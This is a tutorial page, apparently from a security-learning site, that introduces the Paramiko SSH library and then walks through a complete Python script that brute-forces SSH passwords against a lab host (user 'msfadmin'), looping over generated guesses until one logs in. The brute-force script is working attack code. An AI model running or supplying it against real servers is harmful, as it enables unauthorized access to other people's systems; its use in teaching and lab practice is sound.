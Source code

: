 ```yaml
---
title: "Bruteforce SSH"
description: ""
lead: ""
draft: false
images: []
weight: 140
toc: true
---
```



## What is Paramiko?

Paramiko is a Python implementation of SSH (Secure Shell) protocol which allows Python programs to establish secure connections to remote servers. Here's how you can install Paramiko and some basic usage instructions:

### Installation
You can install Paramiko using pip, the package installer for Python. To install the latest version of Paramiko, run the following command:


    pip install paramiko


### Basic Usage

First, you need to import the Paramiko library in your Python script:

    import paramiko


---

## Establish an connection

Let's uses the Paramiko library to establish an SSH connection to a remote server.

The first step is to import the Paramiko library in your Python script.

     import paramiko

### Define connection parameters

Next, define the connection parameters like IP address, username, and password of the remote server you want to connect to.

    ip = '192.168.198.136'
    username = 'ubuntu'
    password = 'pa$$w0rd'
    timeout = 5

In this example, we are using IP address 192.168.198.136 with ubuntu as the username and pa$$w0rd as the password. We are also setting a timeout value of 5 seconds.

### Set up the SSH client
Create an instance of the SSHClient class and set the missing_host_key_policy attribute to AutoAddPolicy. This will automatically add the remote server's SSH key to the local machine's list of known hosts.

    client_policy = paramiko.AutoAddPolicy()
    client = paramiko.SSHClient();
    client.set_missing_host_key_policy(client_policy)

### Connect to the remote server

Use the connect() method of the SSH client instance to establish an SSH connection with the remote server.

    client.connect(ip, username=username, password=password, timeout=timeout)

In this example, we are passing the IP address, username, password, and timeout value to the connect() method.

### Print the SSH client object
Finally, print the SSH client object to verify that the connection has been established successfully.

    print(client)

### Close the connection

After you are finished with the connection, you should close it to free up system resources.

    client.close()


## Bruteforce SSH

This is an example of a brute force attack using the Paramiko library to attempt to log in to an SSH server. The script creates a client object, defines a Brutes class that generates password guesses, and tries to connect to the SSH server using each password guess until the correct one is found.

Here are the steps to understand this script:

### Libraries


    import itertools as it
    import string
    from utils import timefunc
    import paramiko

This code imports the necessary libraries, including itertools, string, timefunc from the utils module, and paramiko.

### Define the create_client function


    def create_client():
        client = paramiko.SSHClient()
        client_policy = paramiko.AutoAddPolicy()
        client.set_missing_host_key_policy(client_policy)
        return client

This function creates an SSH client object using the paramiko library, sets the client's policy to auto-add any new host key, and returns the client object.

### Define the Brutes class


    class Brutes:
        def __init__(self, charset, length, ip):
            self.charset = charset
            self.length = length
            self.ip = ip
        
        @timefunc
        def crackit(self, username):
            client = create_client()
            for guess in self.guesses:
                try:
                    print(guess)
                    client.connect(self.ip, username=username, password=guess, timeout=0.5)
                    print('The password is {}'.format(guess))
                    return guess
                except paramiko.AuthenticationException as e:
                    print('{} is not it.'.format(guess)) 
                finally:
                    client.close()
        
        @property
        def guesses(self):
            for guess in it.product(self.charset, repeat=self.length):
                yield ''.join(guess)


This class takes in three arguments: the character set used to generate password guesses, the length of the password guesses, and the IP address of the target SSH server. The crackit method attempts to connect to the SSH server using each password guess generated by the guesses property until the correct password is found or all guesses have been exhausted. The guesses property generates all possible combinations of the characters in the character set for the given length.

### Define the main function

    def main():
        charset = 'aspeb'#'pqrstuvwxyzabcdefghijklmno'
        ip = '10.0.13.231'
        brute = Brutes(charset, 4, ip)
        password = brute.crackit(username='msfadmin')
        if password:
            print('Found {}'.format(password))

This function sets the character set, IP address, and length of the password guesses, creates a Brutes object, and attempts to crack the SSH password for the specified username. If the password is found, it is printed to the console.

### Run the code


    if __name__ == '__main__':
        main()




